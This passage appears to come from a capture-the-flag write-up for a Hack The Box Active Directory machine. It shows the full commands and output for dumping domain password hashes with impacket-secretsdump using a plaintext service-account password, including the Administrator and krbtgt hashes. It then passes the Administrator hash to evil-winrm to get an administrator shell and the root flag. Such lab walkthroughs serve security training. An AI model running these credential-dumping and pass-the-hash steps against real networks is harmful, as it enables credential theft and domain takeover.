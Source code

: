 ```bash
Global Group memberships     *Exchange Windows Perm*Domain Users
                             *Service Accounts
The command completed successfully.
```

Now we'll dump user hashes using `secretsdump`:
```bash
└─$ impacket-secretsdump svc-alfresco:s3rvice@10.10.10.161         
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
```
Now pass the hash through to an Evil-WinRM sesion and grab the root flag:
```bash
└─$ evil-winrm -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/25/2025   8:33 PM             34 root.txt
```


 


